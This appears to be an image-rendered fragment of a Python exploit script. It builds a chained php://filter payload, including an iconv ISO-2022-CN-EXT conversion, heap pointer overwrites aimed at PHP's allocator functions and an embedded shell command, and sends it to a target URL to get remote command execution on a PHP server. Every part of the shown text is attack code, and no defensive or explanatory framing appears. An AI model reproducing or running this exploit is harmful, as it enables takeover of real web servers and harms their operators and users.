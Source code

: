 ```python
    step3 = b"\x00" * CS
    step3 = chunked_chunk(step3)
    step3 = chunked_chunk(step3)
    step3 = chunked_chunk(step3)
    step3 = compressed_bucket(step3)

    step3_overflow = b"\x00" * (CS - len(vulnerability)) + vulnerability
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = compressed_bucket(step3_overflow)

    step4 = b"=00" + b"\x00" * (CS - 1)
    step4 = chunked_chunk(step4)
    step4 = chunked_chunk(step4)
    step4 = chunked_chunk(step4)
    step4 = compressed_bucket(step4)

    step4_pwn = ptr_bucket(
        0x200000, 0, 0, 0,
        ADDR_CUSTOM_HEAP,
        *([0] * 13),
        ADDR_HEAP,
        *([0] * 11),
        size=CS,
    )
    step4_custom_heap = ptr_bucket(ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18)

    COMMAND = f"kill -9 $PPID; {command}".encode() + b"\x00"
    COMMAND = COMMAND.ljust(0x140, b"\x00")
    step4_use_custom_heap = qpe(COMMAND)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

    pages = (
        step4 * 3 + step4_pwn + step4_custom_heap + step4_use_custom_heap +
        step3_overflow + pad * pad_size + step1 * 3 + step2_write_ptr + step2 * 2
    )
    resource = compress(compress(pages))
    resource = b64(resource)
    resource = f"data:text/plain;base64,{resource.decode()}"
    filters = [
        "zlib.inflate", "zlib.inflate", "dechunk",
        "convert.iconv.L1.L1", "dechunk",
        "convert.iconv.L1.L1", "dechunk",
        "convert.iconv.L1.L1", "dechunk",
        "convert.iconv.UTF-8.ISO-2022-CN-EXT",
        "convert.quoted-printable-decode", "convert.iconv.L1.L1"
    ]
    return f"php://filter/read={'|'.join(filters)}/resource={resource}"

def exploit():
    path = build_exploit_path()
    try:
        send(path, url)
    except (ConnectionError, ChunkedEncodingError):
        pass

def run():
    get_symbols_and_addresses()
    exploit()
```